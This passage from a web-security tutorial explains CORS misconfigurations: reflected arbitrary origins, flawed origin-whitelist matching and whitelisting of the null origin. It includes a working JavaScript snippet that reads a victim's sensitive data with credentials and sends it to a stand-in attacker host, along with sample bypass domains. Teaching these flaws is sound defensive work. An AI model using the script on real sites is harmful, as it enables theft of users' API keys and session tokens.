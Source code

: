 These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

`var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='//malicious-website.com/log?key='+this.responseText; };`

Lab that covers this topic: [cors_basic_origin_reflection](labs/cors_basic_origin_reflection.md)

## Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted. For example, the application receives a normal request like:
`GET /data HTTP/1.1 Host: normal-website.com ... Origin: https://innocent-website.com`

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:
`HTTP/1.1 200 OK ... Access-Control-Allow-Origin: https://innocent-website.com`

Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:
`normal-website.com`

An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`

Alternatively, suppose an application grants access to all domains beginning with
`normal-website.com`

An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

### Whitelisted null origin value
The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
`GET /sensitive-victim-data Host: vulnerable-website.com Origin: null`
